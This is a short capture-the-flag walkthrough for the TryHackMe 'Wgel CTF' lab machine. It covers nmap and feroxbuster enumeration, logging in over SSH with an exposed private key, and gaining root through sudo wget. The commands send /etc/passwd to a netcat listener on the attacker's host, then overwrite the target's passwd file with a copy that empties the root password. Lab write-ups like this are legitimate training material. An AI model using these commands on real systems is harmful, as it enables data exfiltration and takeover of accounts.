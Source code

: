 # Wgel CTF

[Wgel CTF](https://tryhackme.com/room/wgelctf)

## Solution

### Enumeration

- nmap scan: 22, 80
- feroxbuster scan: /sitemap/.ssh/id_rsa
- apache server: we find a comment in the html of the front page `<!-- Jessie don't forget to udate the webiste -->`

### Jessie

Download the key and connect to the target machine as jessie.

```console
wget http://$IP/sitemap/.ssh/id_rsa -O id_rsa
chmod 600 id_rsa
ssh -i id_rsa jessie@$IP
```

### wget

Jessie can run wget as root without a password. We can check that with `sudo
-l`.

On the host `nc -lvnp 6969 > passwd`
On the target `sudo wget --post-file=/etc/passwd <your ip>:6969`

Now we can change the x from the root entry to `U6aMy0wojraho` which basically
allows you to switch to that user whitout the need of a password. This is how a
guest account would work
https://askubuntu.com/questions/14222/how-to-add-a-guest-account-without-a-password

On the host `python -m http.server`
On the target `sudo wget <your_ip>:8000/passwd -O /etc/passwd`

Now you can run `su root` and use the empty password to login as root.
